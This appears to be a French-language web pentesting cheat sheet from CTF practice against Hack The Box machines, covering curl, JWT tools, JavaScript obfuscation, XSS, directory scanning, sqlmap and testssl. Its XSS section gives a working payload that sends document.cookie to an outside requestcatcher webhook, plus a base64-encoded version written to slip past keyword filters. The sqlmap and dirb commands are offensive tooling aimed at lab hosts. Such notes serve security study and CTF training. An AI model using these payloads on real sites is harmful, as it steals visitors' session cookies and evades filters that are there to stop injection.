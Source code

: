 # Web

- [Curl / Wget](#curl--wget)
- [JWT (Json Web Token)](#jwt-json-web-token)
- [API](#api)
- [Obfuscation Javascript](#obfuscation-javascript)
- [XSS (Cross Site Scripting)](#xss-cross-site-scripting)
- [Scan d'URL web](#scan-durl-web)
- [Injection SQL](#injection-sql)
- [TLS](#tls)

## Curl / Wget

```bash
# ajouter un header à la requête
curl http://10.10.10.215 -H host:academy.htb
```

Pour obtenir la version hors-ligne d'un site :
```bash
# version longue
wget -r -l1 --page-requisite --convert-links --adjust-extension --timestamping --no-verbose <--span-hosts> url
# version courte
wget -r -l1 -p -k -E -N -nv <-H> url
```

## JWT (Json Web Token)

Pour manipuler un JWT en ligne : https://jwt.io/

Pour manipuler un JWT en python : https://pyjwt.readthedocs.io/en/latest/

## API

Pour requêter une API : https://reqbin.com

## Obfuscation Javascript

Outil pour obfusquer du Javascript : http://dean.edwards.name/packer

Outil pour dé-obfusquer du Javascript : https://lelinhtinh.github.io/de4js

## XSS (Cross Site Scripting)

```html
// Pour tester
<p id="p1">Testarossa</p>
<script>
document.getElementById("p1").innerHTML = "Life found a way !";
</script>
```

Webhook : https://busterbaxter.requestcatcher.com
```html
// Pour exploiter
<script>
var script = document.createElement("script");
script.src = "https://busterbaxter.requestcatcher.com/" + document.cookie;
document.body.appendChild(script);
</script>:-)

// Pour bypass les filtres qui recherchent des mots clés : base64 encoded payload
<body onload="eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9idXN0ZXJiYXh0ZXIucmVxdWVzdGNhdGNoZXIuY29tLyIgKyBkb2N1bWVudC5jb29raWU7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzY3JpcHQpOw=='))">
```

## Scan d'URL web

>Attention ! Ne pas utiliser en CTF réaliste
```bash
dirb http://10.10.10.215 -r -o academy.dirb.txt -H host:academy.htb
```

## Injection SQL

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet

```bash
# à partir d'une url
sqlmap -u "http://academy.htb/admin.php?uid=0&password=0" #--level 5 --risk 3
# à partir d'une requête interceptée par burpsuite
sqlmap -r academy.burp.txt
```

## TLS

`testssl.sh` permet de tester :
- versions de SSL/TLS
- suites de chiffrement
- ordre de chiffrement
- certificat
- vulnérabilités connues

Pour lancer :
```bash
git clone --depth 1 https://github.com/drwetter/testssl.sh.git
cd testssl.sh
./testssl.sh --html 172.17.0.2:50051
```
